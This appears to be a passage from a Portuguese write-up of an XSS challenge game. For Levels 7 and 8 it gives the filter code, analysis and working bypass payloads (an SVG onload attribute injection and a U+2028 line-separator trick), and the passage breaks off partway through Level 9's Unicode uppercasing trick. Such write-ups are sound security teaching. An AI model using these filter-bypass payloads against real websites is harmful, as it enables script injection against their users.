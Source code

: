 
## ✅ Level 7 - Segmentos HTML em `<p>`

### 🔍 Código:

```js
input.split('#').map(t => '<p title="' + t.slice(0, 12) + '"></p>')
```

### 🧠 Análise:

Cada segmento é colocado dentro de `<p title="...">`. Precisamos contornar essa estrutura usando fechamento de tag e atributos.

### 💡 Estratégia:

* Fechar o `title`, abrir SVG, usar atributo malformado, injetar `onload`.

### ✅ Payload:

```html
"><svg a=#"onload='/*#*/prompt(1)'
```

---

## ✅ Level 8 - Separadores de linha e HTML comments em JS

### 🧠 Análise:

O filtro bloqueia quebras de linha tradicionais e barra `/`, dificultando JS. Mas `U+2028` é um separador de linha válido em JS.

### 💡 Estratégia:

* Usar `U+2028` (line separator).
* Usar `-->` como comment para ignorar parte restante.

### ✅ Payload:

```js
 prompt(1) -->
```

---

## ✅ Level 9 - `toUpperCase()` + Unicode

### 🧠 Análise:

O input é uppercased e tags são bloqueadas com `<[a-zA-Z]`, mas certos caracteres Unicode como `ſ` viram letras ASCII em upper case.
